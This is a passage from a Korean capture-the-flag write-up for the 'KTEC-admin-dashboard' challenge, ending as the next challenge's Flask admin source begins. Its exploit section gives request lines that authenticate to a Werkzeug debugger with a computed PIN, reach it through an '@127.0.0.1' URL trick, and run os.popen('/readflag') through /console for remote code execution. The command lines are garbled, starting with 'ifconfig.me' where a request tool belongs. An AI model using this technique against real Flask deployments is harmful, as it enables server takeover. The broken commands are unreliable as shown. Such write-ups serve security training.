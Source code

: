 PIN 코드를 생성하는 페이로드를 작성했고, 실행하니 852-347-138 PIN 값을 얻을 수 있었다.     

## Exploit Code    
1. PIN 인증
    ```ifconfig.me -i http://13.125.199.169:10001@127.0.0.1:5000/admin?__debugger__=yes&cmd=pinauth&pin=852-347-138&s=gsiLCDxuAQWX7VNi50Zp```          
        
    <img src="/assets/images/ctf/2024/whitehat/KTEC-admin-dashboard/pin_cookie.png" width=700px>    

    PIN 인증 후, 응답 헤더에서 쿠키 값을 얻을 수 있다.     

2. RCE        
    ```ifconfig.me -b __wzd6c64e3debe8f9d33596f=1729317583|1d9816665d29 http://13.125.199.169:10001@127.0.0.1:5000/console?__debugger__=yes&cmd=__import__(%22os%22).popen(%22/readflag%22).read();&frm=0&s=gsiLCDxuAQWX7VNi50Zp```     
          
    PIN 인증을 통해 얻은 쿠키 값을 포함시켜 `/console`에 명령을 보내면 실행이 되어 플래그를 얻을 수 있다.    
                 
## Flag     
whitehat2024{951012d6cf1cb753bdf49921fdfa9d7f50f154940a88d22770549ebe0ebb179edffce9d1682968e1c4730876470185a4e34e94}                 
       
<a id="KTEC-admin-main"></a>                  
      
# KTEC-admin-main                   
     
```python
from flask import Blueprint, render_template, session, abort, request, redirect, url_for, flash
from core.check import loose_waf, strict_waf
from db import dbConnection

bp = Blueprint('admin', __name__, url_prefix='/admin')

@bp.route('/', methods = ['GET', 'POST'])
def admin():
    username = session.get('username')
    
    if request.method == 'POST':
        username = request.form['user']
        password = request.form['pass']
        
        if strict_waf(username):
            return abort(400)
        
```